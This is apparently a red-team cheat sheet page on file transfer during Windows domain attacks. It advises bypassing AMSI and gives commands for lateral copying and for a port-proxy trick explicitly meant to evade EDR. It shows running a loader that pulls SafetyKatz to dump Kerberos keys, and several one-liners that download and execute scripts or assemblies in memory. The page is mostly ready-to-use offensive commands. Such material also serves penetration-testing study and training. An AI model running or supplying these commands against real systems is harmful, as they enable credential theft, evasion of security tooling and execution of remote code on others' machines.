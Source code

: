 # File transfer

{% hint style="danger" %}
It's suggested to bypass AMSI first
{% endhint %}

### Copy from inside the domain

```powershell
echo F | xcopy <PATH> \\<R MACHINE>\<R PATH>
```

```powershell
Copy-Item <PATH> \\<MACCHINA>\<R PATH>
```

### **Avoid EDR detection while downloading**

{% code overflow="wrap" %}
```powershell
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=<IP>"
```
{% endcode %}

Download and use program

{% code overflow="wrap" %}
```powershell
$null | winrs -r:<MACCHINA> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```
{% endcode %}

### Download a file

```powershell
iwr <URL> -OutFile <PATH>
```

### Download a file and execute in memory

#### Powershell script

```
iex (iwr $url -UseBasicParsing)
```

{% code overflow="wrap" %}
```PowerShell
(new-object system.net.webclient).downloadstring('$url')|IEX
```
{% endcode %}

#### Exe file

{% code overflow="wrap" %}
```powershell

$data=(New-Object System.Net.WebClient).DownloadData('<url>');

$asm = [System.Reflection.Assembly]::Load([byte[]]$data);

$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);

[<name>.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()

```
{% endcode %}

